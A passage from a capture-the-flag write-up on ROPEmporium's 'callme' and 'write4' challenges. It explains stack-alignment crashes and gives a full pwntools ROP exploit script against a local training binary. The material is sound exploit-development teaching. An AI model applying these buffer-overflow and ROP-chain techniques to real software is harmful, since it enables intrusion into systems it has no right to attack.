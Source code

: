 This left me confused for a while, but it turns out that ROPEmporium has a "common pitfalls" section warning us of this exact problem:

> If you're segfaulting on a `movaps` instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

Sure enough, our segfault happens on a `movaps` instruction. All we need to do to fix the issue is add an extra `ret` instruction to the start of the chain.

Here is our final script with the extra `ret` added:

```python
from pwn import *

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d


one_addr = 0x400720
two_addr = 0x400740
three_addr = 0x4006f0
gadget = 0x40093c

ret = 0x4006be

call_args = p64(gadget) + p64(arg1) + p64(arg2) + p64(arg3)

chal = process('./callme')

send_str = b'a'*40 + p64(ret) + call_args + p64(one_addr) + call_args + p64(two_addr) + call_args + p64(three_addr)

print(chal.recvuntil(b'>'))
chal.sendline(send_str)
print(chal.recvall())
```
## write4

For this challenge, we are given a function called `print_file()` that we must call with the argument `flag.txt`, but this string is not present in the executable. We will need to figure out how to write the string ourselves.

The "useful gadget" provided to us this time around is `mov [r14], r15; ret`. If we can load an address we want to write to into `r14` and the string `flag.txt` into `r15`, then we can write `flag.txt` to memory. This will allow us to pass its address to `print_file()` as an argument.

![](/assets/images/ropemporium/write4_useful_gadgets.png)
